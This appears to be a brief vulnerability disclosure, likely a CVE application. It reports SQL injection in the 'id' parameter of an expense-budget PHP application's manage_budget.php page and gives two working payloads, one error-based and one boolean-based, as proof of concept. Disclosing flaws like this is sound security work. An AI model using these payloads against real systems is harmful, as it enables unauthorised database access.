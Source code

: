 BUG_Author：wucwu1

Vulnerability File: /expense_budget/admin/budget/manage_budget.php

GET parameter 'id' exists SQL injection vulnerability

Payload1: id=1' and (select 2 from(select count(*),concat(0x55565758,(select (elt(888=888,1))),0x65666768,floor(rand(0)*2))x from information_schema.plugins group by x)a) and 'a'='a

Error-based SQL injection succeeds.

![image](https://github.com/wucwu1/CVEApplication/blob/main/sql1.png)

Payload2: id=1' and 777=777 and 'GSD'='GSD

The Boolean value is judged correctly, so the page is displayed normally.

![image](https://github.com/wucwu1/CVEApplication/blob/main/sql2.png)
